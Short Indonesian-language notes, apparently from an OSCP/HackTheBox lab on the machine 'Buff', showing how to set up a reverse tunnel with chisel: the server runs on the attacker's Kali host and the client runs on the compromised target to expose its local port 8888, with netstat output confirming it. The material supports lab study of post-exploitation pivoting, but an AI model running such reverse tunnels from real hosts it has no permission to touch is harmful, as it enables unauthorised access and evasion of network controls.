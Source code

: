 # Tunneling with chisel

download exec disini: `https://github.com/jpillora/chisel/releases/tag/v1.7.6`

# Run server  

jalankan server di local dengan cara

    ./chisel server -p 8000 --reverse

# Run client

jalankan client di target dengan cara

    .\chisel.exe client 10.10.14.22:8000 R:8888:localhost:8888

fyi, portnya 8888 itu service yang ada di mesin target jalan di port 8888

# test koneksi

coba koneksi dengan perintah:

    ┌──(tripoloski㉿kali)-[~/oscp/htb/buff]
    └─$ netstat -tlpn
    (Not all processes could be identified, non-owned process info
    will not be shown, you would have to be root to see it all.)
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
    tcp        0      0 10.10.14.22:80          0.0.0.0:*               LISTEN      -
    tcp        0      0 10.10.14.22:81          0.0.0.0:*               LISTEN      -
    tcp        0      0 10.10.14.22:82          0.0.0.0:*               LISTEN      -
    tcp        0      0 10.10.14.22:84          0.0.0.0:*               LISTEN      -
    tcp6       0      0 :::8000                 :::*                    LISTEN      54495/./chisel
    tcp6       0      0 :::8888                 :::*                    LISTEN      54495/./chisel